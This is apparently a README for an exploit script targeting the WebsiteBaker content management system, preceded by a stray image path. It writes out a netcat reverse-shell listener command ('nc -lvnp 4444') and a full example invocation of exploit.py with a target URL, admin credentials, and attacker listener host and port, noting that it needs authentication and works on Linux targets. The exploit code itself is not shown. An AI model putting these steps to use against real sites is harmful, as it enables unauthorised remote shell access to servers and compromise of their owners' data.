 ##DAWDA

First Start Listener With Netcat : nc -lvnp 4444

Then Use Exploit

Usage: python exploit.py -t TARGET_URL -u USERNAME -p PASSWORD --lhost LISTENER_IP --lport LISTENER_PORT

Example: python exploit.py -t http://192.168.1.104/WebsiteBaker -u admin -p admin --lhost 192.168.1.103 --lport 4444


#Notes:

Authentication is Required to Exploit Vulnerability

Exploit is For Linux Targets!
